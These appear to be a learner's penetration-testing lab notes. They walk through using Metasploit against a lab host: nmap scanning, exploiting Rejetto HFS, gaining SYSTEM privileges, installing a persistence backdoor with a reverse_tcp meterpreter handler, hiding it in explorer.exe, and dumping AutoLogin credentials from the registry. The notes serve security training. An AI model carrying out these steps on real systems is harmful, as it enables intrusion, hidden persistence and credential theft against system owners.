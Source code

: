 Hydra


Password cracking

Windows Shares(Null Sessions)

ARP Poisoning/Spoofing

## Metasploit


Lab
first

1.  Identify available services on the target
	1. nmap -A -O -p 80 demo.ine.local
			-A scans using all scripts
			-O check OS 
    
2.  Find vulnerability of the target application
    searchsploit hfs 2.3
		-check if exploits exists
	 msfconsole ....  search the exploit (this case rejetto)
	 
3.  Exploit the target using Metasploit Framework
    use (exploit id)
	 show options and set options (make sure LHOST and the modules SRVHOSTS same but port different so that the module the port connects from(SRVPORT) is not same as the payload port (LPORT). 
	 exploit
	 
4.  Obtain SYSTEM privileges on the machine
	1. sessions -> to check available sessions
	2. sessions (session id ) -> to run sesison
	3. In the meterpreter shell:
		1. getsystem --> receive sytem priveldge ...metasploits PEA
		2. getuid --> double check ur priveledge
    
5.  Install Persistence backdoor
	1. use "background" to close the prev session
	2. use exploit/windows/local/persistence_service
	3. set the session to install the backdoor
	4. exploit
	5. background the new session opened
	6. use exploit/multi/handler --> generic handler to listen for the backdoor installed (starts when the backdoor service tries to connect every 5 seconds)
	7. set PAYLOAD windows/meterpreter/reverse_tcp --> the prev payload used
	8. set LHOST LPORT etc then exploit
	9. migrate -N explorer.exe --> good practice to hide ur backdoor as a common explorer.exe service
6.  Extract AutoLogin credentials
	1. use post/windows/gather/credentials/windows_autologin
	2. set session (watever)
	3. exploit
	4.  password of AutoLogin was stored in the registry in plain-text format. Hence, we were able to dump it
	5. These registries are used to auto login to the windows machine (First-time boot or restart) without entering the username and password.


Meterpreter

RCE

Shells


